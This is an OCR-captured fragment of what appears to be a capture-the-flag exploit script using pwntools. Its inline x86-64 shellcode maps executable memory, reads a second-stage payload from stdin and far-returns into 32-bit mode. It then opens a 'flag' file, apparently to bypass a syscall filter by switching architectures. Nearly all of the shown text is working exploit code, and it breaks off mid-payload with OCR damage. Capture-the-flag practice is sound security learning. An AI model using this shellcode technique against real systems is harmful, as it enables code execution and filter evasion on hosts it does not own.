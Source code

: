         pop r10

        xor r8d, r8d /* 0 */

        xor r9d, r9d /* 0 */

        mov edi, 0x1010101 /* 4259840 == 0x410000 */

        xor edi, 0x1400101

        push 7

        pop rdx

        mov esi, 0x1010101 /* 4096 == 0x1000 */

        xor esi, 0x1011101

        /* call mmap() */

        push SYS_mmap /* 9 */

        pop rax

        syscall

​

        /* call read(0, 0x410000, 0x1000) */

        xor eax, eax /* SYS_read */

        xor edi, edi /* 0 */

        xor edx, edx

        mov dh, 0x1000 &gt;&gt; 8

        mov esi, 0x1010101 /* 4259840 == 0x410000 */

        xor esi, 0x1400101

        syscall

​

        mov rsp, 0x410f00

​

        mov DWORD PTR [rsp+4], 0x23

        mov DWORD PTR [rsp], 0x410000

        retf

        ”’

​

    c1 = pwn.shellcraft.i386.linux.open(“flag”) + ”’

        mov DWORD PTR [esp+4], 0x33

        mov DWORD PTR [esp], 0x410100
